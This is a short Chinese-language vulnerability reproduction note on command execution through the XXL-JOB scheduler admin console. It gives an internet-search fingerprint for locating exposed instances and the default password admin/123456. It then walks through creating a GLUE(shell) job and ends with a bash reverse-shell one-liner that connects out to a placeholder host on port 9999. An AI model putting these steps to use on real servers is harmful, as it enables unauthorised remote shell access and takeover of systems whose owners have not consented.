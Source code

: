 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](./images/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](./images/202202101915543.png)

点击 GLUE IDE编辑脚本



![](./images/202202101915236.png)



![](./images/202202101915343.png)



执行探测出网，和任务调用是否可执行



反弹一个shell



```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![](./images/202202101915912.png)